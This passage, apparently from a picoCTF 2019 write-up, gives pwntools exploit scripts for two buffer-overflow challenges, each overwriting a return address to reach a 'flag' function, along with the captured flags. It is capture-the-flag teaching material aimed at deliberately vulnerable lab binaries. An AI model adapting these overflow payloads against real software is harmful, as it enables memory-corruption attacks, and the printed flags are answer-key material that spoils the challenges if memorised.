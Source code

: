```py
print p.recv()
```
<strong> Flag : picoCTF{3asY_P3a5y0a131490} </strong>
<hr>

<h5> OverFlow 1 - 150pt </h5>
<p> You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8')

p = r.process('./vuln')

e = ELF('./vuln')

flag = e.symbols['flag']

payload = "A"*76 # Memory + SFP
payload += p32(flag) # RET(flag)

p.sendline(payload)

print p.recv()
```
<strong> Flag : picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483} </strong>
<hr>

<h5> NewOverFlow-1 - 200pt </h5>
<p> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123')

p = r.process('./vuln')

e = ELF('./vuln')

buf = 0x4007e7
flag = e.symbols['flag']

payload = "A"*72
payload += p64(buf)
payload += p64(flag)

p.sendline(payload)
```